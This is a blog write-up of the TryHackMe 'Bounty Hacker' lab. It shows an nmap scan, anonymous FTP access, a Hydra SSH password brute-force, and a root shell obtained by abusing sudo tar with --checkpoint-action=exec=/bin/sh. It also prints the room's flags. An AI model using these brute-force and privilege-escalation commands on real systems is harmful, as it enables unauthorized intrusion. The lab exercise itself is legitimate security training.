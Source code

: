 ```yaml
---
published: true
image: /assets/img/sample/bounty_hacker_wirteup/boundy.png
categories:
  - Writeup
  - TryHackMe
tags:
  - tryhackme
title: 'Boundy Hacker [TryHackMe]'
headline: 'Bounty Hacker is an easy machine from tryhackme,it absolutely beginner box.'
---
```



Today I wanna share for you a very easy fun box in [Tryhackme](https://tryhackme.com/) called [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) created by [Sevuhl](https://tryhackme.com/p/Sevuhl)

# [](#header-2)Nmap Scan

```console
# Nmap 7.80 scan initiated Fri Jul 31 19:53:29 2020 as: nmap -sC -sV -oN nmap 10.10.85.90
Nmap scan report for 10.10.85.90
Host is up (0.29s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.69.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 19:54:25 2020 -- 1 IP address (1 host up) scanned in 56.02 seconds

```
# [](#header-2)Web

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/2.png)

I scanned all directories, but nothing interesting there ,let's move on 

# [](#header-2)FTP

Next step is FTP can login with anonymous 

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ftp 10.10.85.90
Connected to 10.10.85.90.
220 (vsFTPd 3.0.3)
Name (10.10.85.90:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
`ls -al` 

```shell
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 

```
Let's download these two files with `get` command

```shell
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (402.1706 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (35.0984 kB/s)
ftp> 

```

`task.txt`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

`locks.txt`

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat locks.txt 
rEddrAGON
ReDdr*****d!cat3
Dr@gO*****cat3
R3DDr*****YndIC@Te
Re****0N
R3d*****1c4te
dRa****DiCATE
ReDD*****Ic4te
R3D****44
RedD*****1cat3
R3dD*****d1c@T3
Synd*****@g0n
re****Ag0N
REddR*****NdIc47e
Dra6******IC@t3
4L1mi*****eB357
rEDd******1c473
DrAg****D1cATE
ReD*****nd1cate
Dr@g*****1C4Te
RedDr*****9ic47e
REd*****7e
dr******c@73
rEDdr******iCat3
r3d****0N
Re****1ca7e

```

Look like `passowrd` file. According to `task.txt` file `lin` can be username 

So let's bruteforce with hydra for ssh :)

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #hydra -l lin -P locks.txt ssh://10.10.85.90
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 20:17:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.85.90:22/
[22][ssh] host: 10.10.85.90   login: lin   password: RedD*******nd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 20:17:40
```

OK! Now we got username and password , let's login

```shell
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ssh lin@10.10.85.90
lin@10.10.85.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Fri Jul 31 09:59:59 2020 from 10.8.69.162
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR**************T3}

```

# [](#header-2)Privilege Escalation

```shell
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

`lin` user can run `tar` as root ,let's go [GTFObin](https://gtfobins.github.io/) and search `tar`

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/3.png)

Now we use this command for privilege escalation

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```shell
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# 
```

We owned this machine :)

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/4.png)

[Enjoy..]()

<script src="https://tryhackme.com/badge/97569"></script>
